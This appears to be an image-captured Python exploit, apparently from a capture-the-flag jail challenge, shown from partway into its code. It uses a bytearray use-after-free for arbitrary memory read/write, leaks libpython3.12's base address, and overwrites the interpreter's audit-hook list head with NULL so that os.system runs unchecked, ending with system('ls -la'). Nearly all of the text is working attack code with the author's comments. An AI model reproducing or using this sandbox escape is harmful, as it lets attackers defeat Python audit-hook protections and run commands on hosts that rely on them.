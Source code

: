 ```py
    return int(a, 16)

#uaf setup

class B:
    def __index__(self):
        global memory, uaf
        del uaf[:]
        memory = bytearray()
        uaf.extend([0] * 56)
        return 1

uaf = bytearray(56)
baset(uaf, 23, B())

#get sys module using typical _wrap_close.__init__.__globals__ 

subcls = g(dict(vars(type)), "__subclasses__")(object)   #metaclasses so need g
wc, = [cls for cls in subcls if 'wrap_close' in str(cls)]

glob = ga(gi(wc, "__init__"), "__globals__")
sys = g(glob, "sys")

#get a pointer in libpython3.12.so to get aslr base

aud = ga(sys.audit, "__init__")
print(aud)

audit_loc = getptr(aud) + 24  #sys.audit ptr to c func?  (EDIT: no its right after the func ptr of course i got lost :()

audit_ptr = read_qword(memory, audit_loc) #deref to where??
audit_ptr = read_qword(memory, audit_ptr + 24)  #no idea where i am at this point but from /proc/pid/maps it is in libpython3.12.so at unk_4BF320
print(hex(audit_ptr))

libpython_base = audit_ptr - 0x4BF320   #unk_4BF320

runtime = libpython_base + 0x5ACCC0   #.PyRuntime section

audit_hook_head = runtime + (383 * 8)  #`*((_QWORD *)&PyRuntime + 383) = v7;` which is `runtime->audit_hooks.head = entry;` of add_audit_hook_entry_unlocked inlined in PySys_AddAuditHook (PySys_Audit is way harder to read)

baset(memory, slice(audit_hook_head, audit_hook_head + 8), bytes([0]*8))   #use uaf to arb read/write to memory, in this case do `runtime->audit_hooks.head = NULL`

system = g(glob, "system")
system("ls -la")  #run system normally now that our audit hook linked list is cleared
```
